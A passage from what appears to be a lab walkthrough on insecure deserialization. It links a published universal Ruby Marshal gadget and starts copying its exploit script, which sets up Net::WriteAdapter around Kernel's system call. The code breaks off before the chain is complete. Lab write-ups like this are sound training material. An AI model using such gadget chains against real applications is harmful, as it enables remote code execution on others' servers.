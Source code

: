 ![Insecure deserialization](../img/indes_23.png)

**2.** Find a documented vulnerability for that library at [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)


**3.** Copy the original script:

```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

```